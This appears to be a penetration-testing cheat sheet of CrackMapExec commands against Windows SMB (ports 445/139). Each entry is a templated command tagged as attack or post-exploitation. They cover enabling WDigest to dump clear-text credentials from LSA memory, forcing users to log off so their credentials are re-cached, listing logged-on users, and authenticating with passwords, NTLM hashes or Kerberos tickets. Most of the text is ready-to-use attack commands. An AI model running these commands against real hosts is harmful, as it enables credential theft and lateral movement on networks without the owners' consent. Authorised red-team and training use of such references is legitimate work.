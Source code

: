 ```bash
cme smb <ip> -u <user> -p '<password>' --loggedon-users
```

## enable wdigest
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT  #warning/modify_target 

enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
cme smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect
First use  -x 'quser'
```bash

cme smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> -d <domain>
```

## kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <ip> --kerberos
```
